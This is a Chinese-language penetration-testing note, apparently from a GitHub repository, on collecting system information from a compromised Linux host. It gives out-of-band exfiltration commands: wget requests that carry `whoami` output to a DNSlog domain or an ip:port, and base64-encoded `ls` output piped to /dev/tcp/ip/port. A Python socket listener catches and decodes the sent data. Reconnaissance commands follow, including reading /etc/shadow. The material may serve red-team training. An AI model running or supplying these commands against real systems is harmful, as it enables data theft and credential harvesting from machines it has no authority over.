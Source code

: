 ### 收集系统信息
如果是带内回显，那么执行ls，cat等命令可以收集系统信息。

如果是带外回传信息，小数据可以考虑DNSlog请求外带，也可以wget HTTP请求外带。
```
wget `whoami`.xxx.dnslog.io
wget ip:port/`whoami`
```

如果是大数据，可以考虑把结果重定向到本地，再通过文件传输方式下载目标文件。

也可以考虑通过ls，cat后进行base64编码，直接把base64的结果回传到目标tcp端口。

比如 echo \`ls | base64\` > /dev/tcp/ip/port，本地执行脚本监听回传的信息，脚本内容如下：
```
import socket
import base64

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
skt.bind(('', 7777))
skt.listen()

while True:
    cli, _ = skt.accept()
    allmsg = ''
    skt.settimeout(5)
    while True:
        try:
            msg = cli.recv(1024).decode()
            if len(msg) > 0:
                allmsg += msg
            else:
                break
        except:
            break
    skt.settimeout(999999)
    try:
        print(base64.b64decode(allmsg).decode())
    except Exception as exp:
        print(exp)
```

#### 基础信息收集
```
# 查看当前用户
whoami
id

# 查看系统账户
cat /etc/passwd
cat /etc/shadow

# 查看进程信息
ps -aux
ps -auxef
pstree

# 查看监听端口
netstat -tulnp

# 查看系统挂载信息
mount

# 查看系统及内核版本
cat /etc/issue
uname -a
```